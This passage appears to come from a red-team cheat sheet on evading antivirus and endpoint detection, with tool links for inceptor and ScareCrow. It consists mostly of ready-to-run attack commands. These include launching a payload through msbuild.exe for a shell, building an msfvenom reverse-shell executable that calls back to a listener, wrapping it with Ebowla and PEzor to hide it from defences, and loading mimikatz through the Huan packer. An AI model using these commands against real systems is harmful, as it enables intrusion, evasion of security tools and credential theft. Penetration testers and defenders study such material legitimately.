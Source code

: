 Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```



### Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```



### PEzor

* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Wrap executable into PEzor:

```
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```



### inceptor

* [https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/](https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/)
* [https://github.com/klezVirus/inceptor](https://github.com/klezVirus/inceptor)



### ScareCrow

* [https://github.com/optiv/ScareCrow](https://github.com/optiv/ScareCrow)
* [https://www.grahamhelton.com/blog/scarecrow/](https://www.grahamhelton.com/blog/scarecrow/)
* [https://adamsvoboda.net/evading-edr-with-scarecrow/](https://adamsvoboda.net/evading-edr-with-scarecrow/)



### Huan

* [https://github.com/frkngksl/Huan](https://github.com/frkngksl/Huan)

```
Cmd > .\Huan.exe mimikatz.exe mimiLoader.exe
Cmd > .\mimiLoader.exe
```

